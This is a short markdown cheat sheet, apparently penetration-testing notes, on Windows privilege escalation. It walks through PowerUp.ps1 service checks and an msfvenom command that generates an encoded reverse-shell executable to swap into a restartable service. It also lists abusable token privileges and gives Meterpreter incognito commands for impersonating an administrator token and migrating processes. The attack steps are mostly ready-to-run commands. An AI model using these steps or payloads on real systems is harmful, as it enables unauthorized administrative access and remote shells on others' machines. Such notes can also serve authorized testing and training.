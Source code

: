 # Windows Privilege Escalation

## PowerUp.ps1
- Dot source the script and launch checks
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

- Look for CanRestart=True and modifiable executable services

- Generate an exe payload with MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -e x86/shikata_ga_nai -f exe -o file.exe
```

- Upload the payload and restart the service to get root shell

## Token Impersonation

### Check current user privileges
```
whoami /priv
```
### Look for abusable privileges
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

### Meterpreter Incognito module
```sh
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrator"
# Search for a process running under the same account that has been impersonated
ps
migrate pid
```

## Links
___
### Guides
- https://lolbas-project.github.io/